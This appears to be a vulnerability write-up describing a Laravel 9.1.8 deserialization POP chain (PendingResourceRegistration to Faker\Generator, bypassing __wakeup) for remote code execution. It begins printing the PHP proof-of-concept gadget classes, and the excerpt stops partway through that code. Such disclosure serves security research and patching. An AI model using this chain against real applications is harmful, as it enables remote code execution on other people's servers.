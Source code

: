 <div align=center><img src="./images/17.png"></div>


# Laravel 9.1.8 POP Chain4
## Vulnerability Description

```
Laravel 9.1.8, when processing attacker-controlled data for deserialization, allows Remote Code Execution via an unserialize pop chain in (1) __destruct in Illuminate\Routing\PendingResourceRegistration.php .(2) register in Illuminate\Routing\PendingResourceRegistration.php.(3) __call in Faker\Generator.php . This poc bypasses __wakeup in Faker\Generator.php : https://inhann.top/2022/05/17/bypass_wakeup/
```

## Vulnerability Analysis

According to the description of vulnerability information, the chain is still `ByPass``__wakeup` method in `src/Faker/Generator.php`. The vulnerability analysis logic is as described above.

## POP Chain

```php
<?php

namespace Faker {
    class Generator {
        protected $providers = [];
        protected $formatters = [];
        function __construct() {
            $this->formatter = "register";
            $this->formatters = 9999;
        }

    }
}

namespace Illuminate\Routing {
    class PendingResourceRegistration {
        protected $registrar;
        protected $name;
```